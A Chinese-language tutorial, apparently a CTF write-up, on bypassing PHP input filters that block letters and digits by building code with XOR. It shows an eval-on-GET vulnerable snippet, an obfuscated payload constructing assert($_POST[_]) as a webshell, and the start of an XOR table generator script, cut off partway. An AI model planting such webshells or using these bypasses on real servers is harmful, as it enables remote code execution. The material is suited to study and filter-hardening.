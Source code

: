 [TOC]



### 命令执行-无字母数字webshell

我们看如下代码：

```php
<?php
if(!preg_match('/[a-z0-9]/is',$_GET['shell'])) {
  eval($_GET['shell']);
}
```

在命令执行中，我们经常会碰到过滤了字母和数字的情况，那如何才能绕过呢？

我的想法：通过非字母数字来进行一些相关的操作得到我们想要的代码，如：`system('ls');`

我们可以通过一些特殊的字符来得到：^(异或) ~(取反) +(自增)  |(或)



#### 1、异或

我们先看如下代码：

```php
<?php
    echo "5"^"Z";
```

输出: `o`

我们先来分析一下：字符 "5" 的ascii码是53，其二进制是110101，字母Z的ascii码是90，二进制是1011010

对照一下：

```php
0110101
1011010
异或：相同为0，不同为1
1101111
```

异或可得：1101111，转为10进制为 111 ，ascii码为：o

我们举个例子：

```php
<?php
$_=('%01'^'`').('%13'^'`').('%13'^'`').('%05'^'`').('%12'^'`').('%14'^'`'); // $_='assert';
$__='_'.('%0D'^']').('%2F'^'`').('%0E'^']').('%09'^']'); // $__='_POST';
$___=$$__;
$_($___[_]); // assert($_POST[_]);
```



我们可以使用如下异或脚本：

```php
// rce_xor.php
<?php

$myfile = fopen("xor_rce.txt", "w");
$contents="";
for ($i=0; $i < 256; $i++) { 
	for ($j=0; $j <256 ; $j++) { 

		if($i<16){
			$hex_i='0'.dechex($i);
		}
		else{
			$hex_i=dechex($i);
```